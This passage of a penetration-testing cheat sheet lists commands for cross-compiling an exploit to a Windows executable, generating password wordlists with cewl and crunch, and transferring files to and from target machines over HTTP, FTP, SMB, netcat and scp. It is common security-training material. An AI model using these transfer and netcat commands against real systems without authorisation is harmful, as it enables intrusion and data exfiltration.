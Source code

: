 - Compile windows .exe on Linux
  - `i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe`

- Cross compile
  - `gcc -m32 -Wall -Wl,--hash-style=both -o gimme.o gimme.c`


## DICTIONARY GENERATION
- `cewl -m <WORDS_SIZE> --with-numbers -w dictiFromWebsite <URL> -d <DEPTH>`
- `crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Test@ -o passwords.txt`


## FILE TRANSFER
- [Transferring Files to Windows](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)
- [Transferring Files to Linux](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files.html)
- Browser
  - Navigate to the file on the site and download it directly
- Linux
  - PYTHON (HTTP)
    - `python -m SimpleHTTPServer <PORT>`
  - PYTHON
    - `python2.7 -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"`

  - FTP
    - `sudo python3 -m pyftpdlib  -p 21 -w`

  - SMB
    - `sudo smbserver.py -smb2support liodeus .`

  - WGET
    - `wget <URL> -o <OUT_FILE>`

  - CURL
    - `curl <URL> -o <OUT_FILE>`

  - NETCAT
    - `nc -lvp 1234 > <OUT_FILE>`
    - `nc <IP> 1234 < <IN_FILE>`

  - SCP
    - `scp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>`

- Windows
  - FTP
    - `echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt`
    - `ftp -v -n -s:ftp.txt`

  - SMB
    - Linux -> Windows
      - `copy \\<IP>\<PATH>\<FILE>`
    - Windows -> Linux
      - `copy <FILE> \\<IP>\<PATH>\`
